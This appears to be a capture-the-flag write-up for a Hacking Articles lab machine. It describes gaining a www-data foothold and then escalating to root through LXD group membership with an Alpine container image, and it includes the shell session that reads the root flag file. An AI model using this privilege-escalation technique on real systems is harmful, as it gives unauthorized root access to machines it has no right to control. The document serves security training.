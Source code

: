 
## INITIAL ACCESS - REV SHELL

1. We get into the system as `www-data`. We can go around to check for low hanging fruits but can also take help of out linpeas.

2. We see from our [scan](ssh/tmp/linpeas_www.out) that our user is part of a `lxd` group. We know that exec pretty well. Here is the reference [article](https://www.hackingarticles.in/lxd-privilege-escalation/).

3. We develop a alpine image mentioned [here](ssh/www-data/lxd-alpine-builder/alpine-v3.13-x86_64-20210218_0139.tar.gz).

## PRIVESC

1. We can put the image on our victim and exploit the LXD path. We get the final file by reading the root directory.

```bash
www-data@ubuntu:/mnt$ cd -                     
/tmp
www-data@ubuntu:/tmp$ lxc exec ignite /bin/sh  
~ # whoami
root
~ # bash
/bin/sh: bash: not found
~ # /bin/bash
/bin/sh: /bin/bash: not found
~ # ls
~ # cd mnt/root/root
/bin/sh: cd: can't cd to mnt/root/root: No such file or directory
~ # cd /mnt/root/
/mnt/root # ls
bin             initrd.img      media           run             tmp
boot            initrd.img.old  mnt             sbin            usr
dev             lib             opt             srv             var
etc             lib64           proc            swapfile        vmlinuz
home            lost+found      root            sys             vmlinuz.old
/mnt/root # cd root
/mnt/root/root # ls
final.txt
/mnt/root/root # cat final.txt 

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
```
